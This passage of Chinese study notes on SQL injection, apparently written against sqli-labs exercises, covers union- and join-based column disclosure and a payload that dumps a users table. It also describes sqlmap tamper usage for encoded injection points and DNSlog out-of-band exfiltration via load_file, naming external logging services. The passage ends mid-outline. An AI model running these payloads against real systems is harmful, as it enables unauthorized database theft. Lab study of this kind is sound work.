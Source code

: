 ```mysql
select a.3 from (select 1,2,3 union select * from users) as a;
```

join法：

```mysql
select * from (select * from users as a join users b)c;  //爆列名
ERROR 1060(42S21):Duplicate column name 'username'  //得到列名username
```



```
-1' union select 1, (select group_concat(a) from(select 1 as s,2 as a,3 as b union select * from users)as m),3,4,5,6'
//一个查询语句的条件需要另一个查询语句来获取，内层查询语句的查询结果，可以为外层查询语句提供查询条件，把users中第一列别名s,第二列别名a，第三列别名b，查询得到新的表别名m，供给外部查询a列
```



## 🐱‍🏍注入拓展

#### 加解密

> sqlilabs 21关

关键点：注入的语句加密后发送

- 关联sqlmap：
  - 配合参数tamper，自带插件，使用外部.py文件实现例如base64注入点
  - 也可以不用插件自己写脚本配合sqlmap【<span style="background:#FF9999;">中转注入</span>】
    - ![image-20210727204045560](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439849.png)
    - 然后`sqlmap -u "http://127.0.0.1:8080/test.php?x=" -v 3`，  `-v 3`是sqlmap显示注入语句

#### JSON注入

#### LADP注入

#### DNSlog注入

> sqlilabs 9  load_file+dnslog带外注入

> http://ceye.io/profile【免费的记录dnslog的平台】
>
> https://github.com/ADOOO/DnslogSqlinj【win下】
>
> http://www.dnslog.cn
>
> http://admin.dnslog.link/

> [个人博客详解1](https://www.cnblogs.com/-qing-/p/10623583.html)、[*3](https://www.cnblogs.com/xhds/p/12322839.html)、[**freebuf](https://www.freebuf.com/sectool/280777.html)

1. 用户得是root，有读写文件的权限
2. 解决了盲注还不能*回显数据*，效率低的问题,**另外要发送大量的get请求，那么这种行为很容易被目标物理防火墙认定位是黑客行为，最终导致IP被ban。而DNS不会**

- 原理
  - DNS在解析的时候会留下日志，咱们这个就是读取多级域名的解析日志，来获取信息
    **简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息**
  - 原理上只要能进行DNS请求的函数都可能存在DNSlog注入。
- 应用条件
  - <span style="background:#FF9999;">windows下</span>Mysql【因为Linux没有UNC路径，所以当处于Linux系统时，不能使用该方式获取数据】
  - 返回数据没有特殊符号
  - **load_file函数，【<span style="background:#FF9999;">所以一般得是root权限</span>】，**load_file()不仅能够加载本地文件，同时也能对诸如www.test.com这样的URL发起请求。
- 应用场景
